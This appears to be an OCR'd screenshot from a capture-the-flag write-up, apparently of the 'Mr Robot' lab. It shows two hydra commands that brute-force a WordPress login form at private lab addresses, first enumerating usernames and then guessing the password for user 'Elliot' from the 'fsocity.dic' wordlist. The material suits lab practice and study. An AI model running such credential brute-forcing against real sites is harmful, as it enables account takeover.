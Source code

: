 
hydra -v -V -L fsocity.dic -p test 10.10.133.103 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS
^&wp-submit=Log+In&redirect_to=https%3A%2F%2F10.10.133.103%2Fwp-admin%2F&testcookie=1:Invalid
username"

hydra -l Elliot -P fsocity.dic 10.10.173.91 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^
&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.173.91%2Fwp-admin%2F&testcookie=1:The 
password you entered for the username"
